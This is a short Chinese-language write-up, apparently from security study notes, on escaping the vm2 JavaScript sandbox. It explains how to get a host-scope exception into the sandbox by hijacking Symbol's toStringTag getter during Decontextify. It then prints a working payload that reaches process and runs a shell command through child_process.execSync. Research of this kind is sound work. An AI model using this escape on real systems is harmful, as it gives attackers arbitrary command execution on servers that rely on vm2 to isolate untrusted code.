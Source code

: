 想办法在沙箱外的代码中触发一个异常，并在沙箱内捕捉，这样就可以获得一个外部变量e，再利用这个变量e的constructor执行代码。 而触发异常的方法就是“爆调用栈”，JavaScript在递归超过一定次数时就会抛出异常。但我们需要保证的是：抛出异常的这个函数是在host作用域中（即沙箱外）。



```javascript
Symbol = {
  get toStringTag(){
    throw f=>f.constructor("return process")()
  }
};
try{
  Buffer.from(new Map());
}catch(f){
  Symbol = {};
  f(()=>{}).mainModule.require("child_process").execSync("whoami").toString();
}
```

vm2会代理与初始化沙箱内对象，如果此时这个对象是下面类型，则会执行Decontextify.instance()函数。

![image-20221224224834943](../.gitbook/assets/image-20221224224834943.png)

这个函数中，用到了一个全局对象Symbol，我们劫持这个对象的getter()方法。这样，vm2在执行到Decontextify.instance()函数会抛出异常，因为这个异常是在沙箱外的代码抛出的，我们在沙箱内拿到的异常对象e，这就是一个外部变量。
